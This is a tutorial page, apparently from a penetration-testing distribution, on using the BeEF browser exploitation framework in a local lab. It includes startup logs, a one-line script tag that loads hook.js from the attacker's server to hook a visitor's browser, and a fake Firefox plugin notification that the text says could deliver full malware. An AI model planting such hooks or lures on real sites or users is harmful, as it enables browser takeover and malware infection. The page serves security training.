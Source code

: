 
BeEF
============

Website
-------

<https://beefproject.com>

Description
-----------

BeEF, The Browser Exploitation Framework Project is a tool for the pwnage of one of the 
underexplored frontiers in information security, the web browser.

Install Location
----------------

`/opt/beef`

Usage
-----

BeEF uses javascript to "hook" one or more browsers before attempting to leverage its access for 
further exploitation.

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_BeEF.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155679&canary=">
 <p>Your browser does not support html5 video.</p>
</video>

Example 1: Hooking a Web Browser
--------------------------------

First change into the BeEF install directory:

`~$` **`cd /opt/beef`**

Next launch BeEF like so:

`/opt/beef$` **`sudo ./beef`**

        [14:00:53][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
        [14:00:53][*] Browser Exploitation Framework (BeEF) 0.4.4.9-alpha
        [14:00:53]    |   Twit: @beefproject
        [14:00:53]    |   Site: http://beefproject.com
        [14:00:53]    |   Blog: http://blog.beefproject.com
        [14:00:53]    |_  Wiki: https://github.com/beefproject/beef/wiki
        [14:00:53][*] Project Creator: Wade Alcorn (@WadeAlcorn)
        [14:00:54][*] BeEF is loading. Wait a few seconds...
        [14:01:14][*] 10 extensions enabled.
        [14:01:14][*] 191 modules enabled.
        [14:01:14][*] 2 network interfaces were detected.
        [14:01:14][+] running on network interface: 127.0.0.1
        [14:01:14]    |   Hook URL: http://127.0.0.1:3000/hook.js
        [14:01:14]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
        [14:01:14][+] running on network interface: 192.168.1.109
        [14:01:14]    |   Hook URL: http://192.168.1.109:3000/hook.js
        [14:01:14]    |_  UI URL:   http://192.168.1.109:3000/ui/panel
        [14:01:14][*] RESTful API key: 4bfb70558017e0a2362021864acd445f0d51882d
        [14:01:14][*] HTTP Proxy: http://127.0.0.1:6789
        [14:01:14][*] BeEF server started (press control+c to stop)

Now that we have BeEF listening for connections let's embed the javascript hook in a page and get 
our target to browse to it.

All you need to do to embed the javascript hook on any page is to insert a single line of html 
like this:

`<script src='http://192.168.1.109:3000/hook.js'></script>`

So if you have an html page that you would like to embed into, feel free.

However, we have already created a page which performs dynamic embedding of the BeEF hook.


This page is located at: /var/www/adhd/beef/hook.php



Open up a new Firefox instance by either running this command:

`~$` **`firefox & `**

Or by navigating `Launch Menu > Internet > Firefox Web Browser`

![](Beef_files/Image_001.png)

Once you have Firefox running let's visit the target page and get our browser hooked.

Load up [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

![](Beef_files/Image_002.png)

You shouldn't see anything more than a default, blank, boring page.

Now open up a new tab and navigate to the BeEF UI.  This can be accomplished by either 
directly accessing the url [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
or by visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_003.PNG)

Authenticate:

    Username:    beef
    Password:    beef

After authentication you should be able to see your hooked browser on the left hand side 
under "Online Browsers"

![](Beef_files/Image_004.PNG)

And that's it, you have successfully hooked a web browser.

The browser will remain hooked as long as the tab it has open to your page remains as such.

To see some example of what we can do with a hooked browser, continue on to 
[Example 2: Browser Based Exploitation With BeEF].

Example 2: Browser Based Exploitation With BeEF
-----------------------------------------------

Assuming you already have a hooked web browser, let's take a look at some things you can do with it.

Open the BeEF console by either navigating directly to [http://127.0.0.1/ui/panel](http://127.0.0.1/ui/panel)
or visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_004.PNG)

To get started click on your hooked web browser.  This should bring up details about your selected 
browser in the multi-tabbed menu on the right of the console.

![](Beef_files/Image_005.PNG)

These details can help you tailor attacks to your victim's browser.

Let's run a few commands.  Select the commands tab.

![](Beef_files/Image_006.PNG)

Now expand the module tree

Select `Social Engineering > Fake Notification Bar (Firefox)`

![](Beef_files/Image_007.png)

This should open up a menu on the right.  Leave all the options default and click `Execute`

![](Beef_files/Image_008.PNG)

After a few seconds, the hooked browser should see something similar to this.

![](Beef_files/Image_009.png)

If they install the plugin, they are pwned.
It should be noted that this method can be used to deliver anything, not just the default 
"malicious plugin."  This could easily be leverage to install fully fledged malware on the system, 
simply by updating the module options before execution.

There are tons of other modules available in BeEF, don't stop here. Get exploring.

